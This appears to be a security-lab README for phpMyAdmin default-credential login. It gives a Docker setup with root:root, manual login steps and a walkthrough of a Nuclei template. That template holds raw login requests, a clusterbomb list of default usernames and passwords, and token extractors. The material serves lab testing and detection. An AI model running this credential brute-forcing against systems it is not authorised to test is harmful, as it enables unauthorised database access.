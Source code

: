 # phpMyAdmin Default Login

## Description  

phpMyAdmin configured with default or weak credentials pose a critical security risk. Attackers can exploit this vulnerability to gain  access sensitive information, manipulate databases, extract sensitive information, and execute arbitrary SQL commands.

## References  

- [Sling Academy - Default phpMyAdmin Credentials](https://www.slingacademy.com/article/default-username-and-password-for-phpmyadmin/)  
- [phpMyAdmin Default Credentials List](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt) 

## Lab Setup  

- Run the following command to build and start the container:

  ```bash
  docker-compose up -d
  ```
Once running, **phpMyAdmin** will be accessible on **port 8080** with the default credentials:(`root`:`root`)
  
## Exploitation Steps  
- Navigate to phpMyAdmin at: http://your-ip:8080
- Enter the default credentials (`root/root`).
![img](https://github.com/user-attachments/assets/bb4e46f8-53d7-4f0e-8a8f-653328d641fe)

- Successfully log in to phpMyAdmin.
![img](https://github.com/user-attachments/assets/afcab5c4-f934-4691-8ea4-ba6685238682)


## Steps to Write Nuclei Template  


**HTTP Requests**
```yaml
http:
  - raw:
      - |
        GET /index.php HTTP/1.1
        Host: {{Hostname}}
      - |
        POST /index.php HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        Cookie: phpMyAdmin={{token2}}; pma_lang=en

        set_session={{session}}&pma_username={{user}}&pma_password={{password}}&server=1&route=%2F&token={{token}}
```
- The **first request** (`GET /index.php`) checks if phpMyAdmin is running.
- The **second request** (`POST /index.php`) attempts to log in using **different credentials**.
- It sends **username (`pma_username`) and password (`pma_password`)** in an HTTP POST request.



**Attack Mode**
```yaml
    attack: clusterbomb
```
- **Clusterbomb mode**: Tests **all** possible **username & password** combinations.



**Payloads**
```yaml
    payloads:
      user:
        - root
        - mysql
      password:
        - 123456
        - root
        - mysql
        - toor
```

- These are **common default credentials** tested against phpMyAdmin.
- It tries **every username with every password**.



**Extracting Tokens (Extractors)**
```yaml
    extractors:
      - type: regex
        name: token
        internal: true
        group: 1
        regex:
          - 'name="token" value="([0-9a-z]+)"'
```

- Extracts **token** needed for authentication.


```yaml
      - type: regex
        name: token2
        internal: true
        group: 1
        regex:
          - 'name="set_session" value="([0-9a-z]+)"'
```

- Extracts **session token** required for a valid login request.


```yaml
      - type: regex
        name: session
        part: header
        internal: true
        group: 2
        regex:
          - "phpMyAdmin(_https)?=([0-9a-z]+)" # for HTTPS
```

- Extracts **session ID** from the response headers.



**Stop Execution on First Match**
```yaml
    stop-at-first-match: true
```

- Stops testing as soon as **valid credentials** are found.



**Matchers (Detecting Successful Login)**
```yaml
    matchers-condition: and
    matchers:
      - type: dsl
        dsl:
          - contains(header_2, "phpMyAdmin=") && contains(header_2, "pmaUser-1=")
          - status_code_2 == 302
          - contains(header_2, 'index.php?collation_connection=utf8mb4_unicode_ci') || contains(header_2, '/index.php?route=/&route=%2F')
        condition: and
```

- Confirms a **successful login** by checking:
  - **Response headers** contain a phpMyAdmin session.
  - **Status code is `302`** (redirect after successful login).
  - **Response contains dashboard-related URLs (`index.php?route=/`)**.

## Nuclei Template URL : [phpmyadmin-default-login](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/default-logins/phpmyadmin/phpmyadmin-default-login.yaml)

## Nuclei Command  

```bash
nuclei -id phpmyadmin-default-login -u localhost:8080 -vv
```
![img](https://github.com/user-attachments/assets/779b2f98-19f4-4008-80e6-d475f9effab9)
